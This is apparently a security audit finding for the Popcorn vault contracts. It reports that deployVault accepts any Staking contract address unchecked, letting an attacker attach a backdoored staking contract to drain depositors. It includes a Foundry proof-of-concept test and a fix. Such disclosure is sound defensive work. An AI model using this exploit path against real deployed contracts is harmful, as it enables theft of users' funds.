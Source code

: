 ## Tags

- bug
- 3 (High Risk)
- primary issue
- selected for report
- sponsor confirmed
- H-08

# [Attacker can deploys vaults with a malicious Staking contract](https://github.com/code-423n4/2023-01-popcorn-findings/issues/275) 

# Lines of code

https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultController.sol#L106-L110
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultRegistry.sol#L44-L53


# Vulnerability details

## Impact
Anyone can deploy a Vault with a malicious Staking contract attached. If the Staking contract already exists, we can just pass its address to `deployVault` and no checks will be applied to see whether the Staking contract matches valid Staking templates in the Template Registry. 

An attacker can create malicious Staking contract that acts like a regular ERC-4626 vault but with a backdoor function that allows them to withdraw all the deposited funds in the contract. Users may assume the Staking contract is valid and safe and will deposit their funds into it. This will lead to loss of funds for users and huge loss of credibility for the protocol.


## Proof of Concept
The below PoC shows the behavior described above where any Staking contract can be deployed with a Vault. The below lines will need to be added to the `VaultController.t.sol` file. 

```solidity
  function test__deploy_malicious_staking_contract() public {
    addTemplate("Adapter", templateId, adapterImpl, true, true);
    addTemplate("Strategy", "MockStrategy", strategyImpl, false, true);
    addTemplate("Vault", "V1", vaultImpl, true, true);

    // Pretend this malicious Staking contract allows attacker to withdraw
    // all the funds from it while allowing users to use it like a normal Staking contract
    MultiRewardStaking maliciousStaking = new MultiRewardStaking();

    vm.startPrank(alice);
    address vault = controller.deployVault(
      VaultInitParams({
        asset: iAsset,
        adapter: IERC4626(address(0)),
        fees: VaultFees({
          deposit: 100,
          withdrawal: 200,
          management: 300,
          performance: 400
        }),
        feeRecipient: feeRecipient,
        owner: address(this)
      }),
      DeploymentArgs({ id: templateId, data: abi.encode(uint256(100)) }),
      DeploymentArgs({ id: 0, data: "" }),
      address(maliciousStaking),
      "",
      VaultMetadata({
        vault: address(0),
        staking: address(maliciousStaking),
        creator: alice,
        metadataCID: metadataCid,
        swapTokenAddresses: swapTokenAddresses,
        swapAddress: address(0x5555),
        exchange: uint256(1)
      }),
      0
    );
    vm.stopPrank();

    assertEq(vaultRegistry.getVault(vault).staking, address(maliciousStaking));
  }
```

The test can be run with the following command: `forge test --no-match-contract 'Abstract' --match-test test__deploy_malicious_staking_contract`

## Tools Used
VSCode, Foundry

## Recommended Mitigation Steps
1. Add checks to verify that the Staking contract being used in `deployVault` is a Staking contract that was deployed by the system and uses an approved template: 
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/VaultController.sol#L106-L110